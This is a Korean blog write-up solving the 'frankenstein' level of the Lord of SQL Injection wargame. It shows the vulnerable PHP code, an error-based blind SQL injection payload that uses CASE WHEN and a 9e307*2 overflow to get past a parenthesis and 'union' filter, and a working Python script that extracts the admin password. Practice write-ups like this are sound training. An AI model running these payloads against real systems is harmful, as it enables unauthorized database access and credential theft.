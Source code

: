 ```yaml
---
title: "[Lord of SQL Injection] LoS - frankenstein 문제풀이"
date: 2018-09-14
draft: false
category: [wargame]
subcategories: [lord-of-sql-injection]
tags: [Write-up, Lord of SQL Injection]
---
```


용 시리즈 끝났더니 너무 어렵다 ㅠㅠ
물론 풀타임으로 계속 고민하진 않았지만 이거 푸는데 너무 오래걸렸다.
드디어 풀었다!  

<!--more-->

코드는 다음과 같다.  

```php
---------------------------------------------------------------------------------------------------------
query : select id,pw from prob_frankenstein where id='frankenstein' and pw=''
---------------------------------------------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(|\)|union/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_frankenstein where id='frankenstein' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if(mysql_error()) exit("error");

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_frankenstein where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("frankenstein");
  highlight_file(__FILE__);
?>
```

문제 보자마자 읭? 했다.
일단 괄호가 다 필터링 되어있다.
근데 `error`를 뱉어주니, `Error Based Blind SQL Injection` 같은데, 문제는 `union`도 필터링 되어 있기 때문에 이 전에 문제를 풀기 위해 사용했던 서브쿼리에서 오류 발생시키기 방법을 사용하지 못한다는 거다.
일단 초점은 맞췄던 것은 `조건문을 쓰는데 괄호 없이 어떻게 사용하는가!` 였다.
서브쿼리를 괄호 없이 쓰는 법이 있나... 좀 오래 고민했는데, 다 풀고나니 내가 MySQL 문법만 제대로 알았더라도 이미 풀고도 남았던 문제였다.
~~바보 인증 또함~~
내가 사용한 문법은 다음과 같다.  

```mysql
case when 조건 then 참일 때 else 거짓일 때 end
```

이렇게 하면 괄호 없이도 조건문을 사용할 수 있다.
사실 이거 한참 전에 한번 시도해 봤던 문법인데, 뒤에 `end`를 붙여야 한다는 사실을 몰랐다.
그래서 뭘 해도 오류가 나길래 `아 이거 안되는 건가보다` 이러고 넘겼는데, 오늘 다시 인터넷에 찾아보니 뒤에 `end`가 있더라.
`혹시나...?` 하고 뒤에 `end`를 붙여서 내 서버에서 테스트 해 보니 매우 잘ㅋ됨ㅋ
뭔가 갑자기 신나져서 막 코드 짜서 바로 돌려보았다.
그랬더니 `pw` 값을 얻을 수 있었다.
문제를 풀기 위해서 사용한 전체 쿼리는 다음과 같다.

```plain
pw=1' or case when id='admin' and pw like 'a%' then 9e307*2 else 0 end#
```

이러면 만약 `id='admin' and pw like 'a%'`가 참일 경우에는 `9e307*2`가 실행되고 아닐 경우에는 `0`을 실행한다.
그런데 `9e307*2`는 MySQL에서 `ERROR 1690 (22003): DOUBLE value is out of range in '(9e307 * 2)'`라는 오류를 준다.
때문에 문제에서는 `error`만을 출력한 후 `exit` 하게 된다.
`pw like 'a%'`는 이 전에도 한번 사용한 적이 있는데, `like`을 사용 할 경우 정규표현식 처럼 사용할 수 있다.
`%`가 `모든 문자`를 의미하기 때문에 `a%`라고 하면 `a로 시작하고 뒤에 어떤 문자열이라도 붙어 있는 경우`를 체크한다.
즉 `pw='a%'`는 `apple`, `abc` 모두 참이 나온다.
이를 바탕으로 코드를 짜면 아래와 같다.  

```python
import requests

flag = ""

url = "http://los.rubiya.kr/frankenstein_b5bab23e64777e1756174ad33f14b5db.php?pw="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find password"

for j in range(1, 40):
	found = False
	for i in range(48, 128):
		try:
			query = url + "1' or case when id='admin' and pw like '" + flag +  chr(i) + "%' then 9e307*2 else 0 end%23"
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if '<br>error' in r.text:
			flag += chr(i)
			print "[+] Found", str(j), ":", flag
			found = True
			break
	if not found:
		print "[+] Found password finished"
		break

print "[+] Found password : ", flag
print "[+] End"
```

그 결과 아래와 같이 무려 `한번에!` 값을 구할 수 있었다.
좀 간만에 오류 없이 한방에 나와서 기분이 좋았다.
아 아니구나 `두 번 만에` 나왔다.  

```bash
$ python ex.py 
[+] Start
[+] Find password
[+] Found 1 : 0
[+] Found 2 : 0D
[+] Found 3 : 0DC
[+] Found 4 : 0DC4
[+] Found 5 : 0DC4E
[+] Found 6 : 0DC4EF
[+] Found 7 : 0DC4EFB
[+] Found 8 : 0DC4EFBB
[+] Found password finished
[+] Found password :  0DC4EFBB
[+] End
```

이번에도 소문자로 입력하면 된다.
아예 비교하는 대상 문자열을 내가 알파벳 소문자로 두면 될텐데 뭔가 귀찮아서 걍 `아스키코드 숫자 ~ 문자` 범위로 하다보니 맨날 대문자가 먼저 나온다.
언젠간 고치겠지 뭐...
아래처럼 입력하면 문제를 풀 수 있다.  

```plain
?pw=0dc4efbb
```

씐난다!
기분 좋게 집 갈 수 있다!  

```php
------------------------------------------------------------------------------------------------------------------------
query : select id,pw from prob_frankenstein where id='frankenstein' and pw='0dc4efbb'
------------------------------------------------------------------------------------------------------------------------

FRANKENSTEIN Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(|\)|union/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_frankenstein where id='frankenstein' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if(mysql_error()) exit("error");

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_frankenstein where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("frankenstein");
  highlight_file(__FILE__);
?>
```

---

```plain
FRANKENSTEIN Clear!plain!
```